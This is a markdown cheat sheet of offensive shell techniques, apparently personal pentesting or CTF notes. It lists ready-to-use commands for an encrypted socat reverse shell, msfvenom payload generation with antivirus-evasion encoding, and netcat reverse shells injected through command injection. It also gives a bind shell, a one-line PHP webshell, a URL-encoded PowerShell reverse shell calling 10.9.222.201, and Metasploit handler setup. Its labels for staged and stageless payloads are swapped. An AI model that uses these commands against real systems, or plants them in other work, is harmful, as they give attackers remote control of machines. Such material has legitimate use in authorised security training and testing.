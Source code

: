 #### Encrypted Socat Reverse Shell with OpenSSL
- generate RSA key on listening device: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
- `cat shell.key shell.crt > shell.pem`
- open listener on own device: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0`
- on target: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Change terminal tty size
- on other terminal: `stty -a`
- in shell: `stty rows <number>`
- in shell: `stty cols <number>`

### Generate reverse shell with msfvenom
- `msfvenom -p <PAYLOAD> <OPTIONS>`
- list payloads: `msfvenom --list payloads`
- stageless: `windows/shell/reverse_tcp`
- staged: `windows/shell_reverse_tcp`
- ex; generate Windows x64 reverse shell in exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
- ex; generate reverse netcat payload: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
- encode example to bypass AV: `--encoder x86/shikata_ga_nai`

### Reverse Shell with command injection
- on own pc: `sudo nc -lvnp 443`
- on target: `;nc <LOCAL-IP> <PORT> -e /bin/bash`

### Bind Shell from Windows PC
- target pc: `nc -lvnp <port> -e "cmd.exe"`
- own pc: `nc MACHINE_IP <port>`

### Webshell
- simple PHP webshell: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` ?cmd= in URL
- reverse linux: `?cmd=nc 10.9.222.201 1337 -e /bin/bash`
- reverse Windows: `?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.9.222.201%27%2C1337%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

### Generate meterpreter shell with Metasploit
- `msfconsole -q`
- `use multi/handler`
- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`
- run exploit in background: `exploit -j`
- check which session the shell is: `sessions`
- foreground session: `sessions <session-number>`
